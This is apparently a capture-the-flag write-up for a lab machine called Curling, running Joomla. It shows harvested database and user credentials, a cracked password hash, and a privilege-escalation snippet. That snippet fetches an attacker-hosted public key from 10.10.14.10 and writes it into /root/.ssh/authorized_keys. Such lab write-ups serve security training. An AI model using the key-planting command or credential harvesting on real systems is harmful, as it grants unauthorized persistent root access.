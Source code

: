 Name & IP Address of Machine:
> CURLING : `10.10.10.150`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->



## Synopsis
- `floris:Curling2018!`
```bash
    public $dbtype = 'mysqli';
    public $host = 'localhost';
    public $user = 'floris';
    public $password = 'mYsQ!P4ssw0rd$yea!';
    public $db = 'Joombla';
```

```bash
mysql> select name,username,password from eslfu_users;
+------------+----------+--------------------------------------------------------------+
| name       | username | password                                                     |
+------------+----------+--------------------------------------------------------------+
| Super User | floris   | $2y$10$4t3DQSg0DSlKcDEkf1qEcu6nUFEr/gytHfVENwSmZN1MXxE1Ssx.e (Curling2018!)|
+------------+----------+--------------------------------------------------------------+
1 row in set (0.00 sec)
```
## Enumeration
Opened Ports: 
- [ ] 22 (SSH)
- [ ] 80 (HTTP) - JOOMLA CMS



## FootHold

## Lateral Movement
- A backup file is found on the home directory of floris. Unzipping that gets the user floris.
- `floris:5d<wdCbdZu)|hChXll`

## Privilege Escalation


```bash
#
url = "http://10.10.14.10:8000/id_rsa.pub"
-o /root/.ssh/authorized_keys
#

#
url = "http://10.10.14.10:8000/id_rsa.pub"
#
```

<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->